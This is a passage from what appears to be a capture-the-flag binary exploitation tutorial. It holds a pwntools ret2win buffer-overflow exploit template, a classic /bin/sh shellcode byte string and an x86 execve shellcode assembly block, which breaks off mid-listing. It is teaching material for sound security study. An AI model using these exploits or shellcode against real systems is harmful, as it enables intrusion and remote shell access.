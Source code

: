 + In the case of ret2win however we simply want to overwrite the return pointer with the address of the win function thus transferring the flow of execution there and executing whatever instructions lie within

### Sample Exploit

+ Bellow is an example exploit using [pwntools](../../../Tooling/Tooling.md) for exploiting a ret2win buffer overflow

```python
from pwn import *

r = remote('<domain>', <port>)
# r = process('./<binary>')

padding = b'A' * cyclic_find(b'aala')

#                   E.G   0x80484d6
payload = padding + p32(<win-address>)

r.sendline(payload)

r.interactive()

```

## Ret2shellcode

+ Now that we have seen the general approach to buffer overflows and explored the notion of controlling the return pointer we can now talk about what to do if we do not have a win function to return to

### Shellcode

+ Shellcode is the name given to chaining opcodes together in a payload to, historically, pop a shell
+ A typical chunk of shellcode looks like `
"\xeb\x17\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\x50\x8d"
"\x53\x08\x52\x53\xb0\x3b\x50\xcd\x80\xe8\xe4\xff\xff\xff/bin/sh"`
+ However we live in the modern era and there exists the [pwntools]() library
+ With pwntools we can build our shellcode in x86, this typically looks something like

    ```python
    shellcode = asm('''
        xor eax, eax
        push eax     

        push 0x68732f2f   
        push 0x6e69622f 

        mov ebx, esp   
        push eax

        push ebx
        mov ecx, esp
        mov al, 0xb     
